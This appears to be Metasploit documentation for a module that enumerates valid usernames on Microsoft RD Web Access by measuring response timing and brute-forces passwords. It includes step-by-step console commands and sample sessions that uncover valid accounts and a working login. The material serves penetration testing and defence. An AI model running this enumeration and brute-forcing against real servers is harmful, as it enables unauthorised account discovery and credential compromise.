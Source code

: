 ## Vulnerable Application

The Microsoft RD Web login is vulnerable to the same type of authentication username enumeration vulnerability
that is present for OWA. By analyzing the time it takes for a failed response, the RDWeb interface can be used
to quickly test the validity of a set of usernames. The module additionally supports testing username password
combinations. Additionally, this module can attempt to discover the target NTLM domain if you don't already know it.
This module also reports credentials to the credentials database when they are discovered.

## Verification Steps


- [ ] Start `msfconsole`
- [ ] `use auxiliary/scanner/http/rdp_web_login`
- [ ] `set rhost TARGET_IP`
- [ ] `set username USER_OR_FILE`
- [ ] `set password PASSWORD_OR_FILE` (Only if you want to test the password brute forcing)
- [ ] `set domain DOMAIN` (Only if you don't want to test the domain discovery feature)
- [ ] Check output for validity of your test username(s), password(s), and domain


## Options

### domain

The target domain to use for the username checks. If not provided, enum_domain needs to be set to true so it can be discovered.

### enum_domain

Enumerate the domain by using an NTLM challenge/response and parsing the AD Domain out.

### username

Either a specific username to verify or a file with one username per line to verify.

### password

Either a specific password to attempt or a file with one password per line to verify.
If not provided, uses the same None password for all requests

### verify_service

Whether or not to verify that RDWeb is installed prior to scanning. Defaults to true.

### user_agent

An alternate User Agent string to use in HTTP requests. Defaults to Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0.

## Scenarios
If an RDWeb login page is discovered, you can use this module to gather valid usernames for a brute force attack.

Specific target output replaced with Ys so as not to disclose information
```msf6 > use auxiliary/scanner/http/rdp_web_login
msf6 auxiliary(scanner/http/rdp_web_login) > set username /home/kali/users.txt
username => /home/kali/users.txt
msf6 auxiliary(scanner/http/rdp_web_login) > set RHOSTS YY.YYY.YYY.YY
RHOSTS => YY.YYY.YYY.YY
msf6 auxiliary(scanner/http/rdp_web_login) > run

[*] Running for YY.YYY.YYY.YY...
[+] Found Domain: YYYYYYYYYYYY
[-] Username YYYYYYYYYYYY\wrong is invalid! No response received in 1250 milliseconds
[+] Username YYYYYYYYYYYY\YYYYY is valid! Response received in 628.877 milliseconds
[-] Username YYYYYYYYYYYY\k0pak4 is invalid! No response received in 1250 milliseconds
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed```

If an RDWeb login page is discovered, you can use this module to perform a brute force attack.
```msf6 > use auxiliary/scanner/http/rdp_web_login
msf6 auxiliary(scanner/http/rdp_web_login) > set RHOSTS 192.168.148.128
RHOSTS => 192.168.148.128
msf6 auxiliary(scanner/http/rdp_web_login) > set username /home/kali/users.txt
username => /home/kali/users.txt
msf6 auxiliary(scanner/http/rdp_web_login) > set password /home/kali/passwords.txt
password => /home/kali/passwords.txt
msf6 auxiliary(scanner/http/rdp_web_login) > set timeout 500
timeout => 500
msf6 auxiliary(scanner/http/rdp_web_login) > run

[*] Running for YY.YYY.YYY.YY...
[+] Found Domain: YYYY
[-] Login YYYY\wrong:password is invalid! No response received in 500 milliseconds
[-] Login YYYY\wrong:Password1! is invalid! No response received in 500 milliseconds
[+] Password password is invalid but YYYY\k0pak4 is valid! Response received in 155.648 milliseconds
[+] Login YYYY\k0pak4:Password1! is valid!
[+] Password password is invalid but YYYY\Administrator is valid! Response received in 77.852 milliseconds
[+] Password Password1! is invalid but YYYY\Administrator is valid! Response received in 76.029 milliseconds
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed```

## Version and OS
Tested against Microsoft IIS 10.0 and RDWeb on Windows Server 2019 and Windows Server 2016

## References
- https://raxis.com/blog/rd-web-access-vulnerability
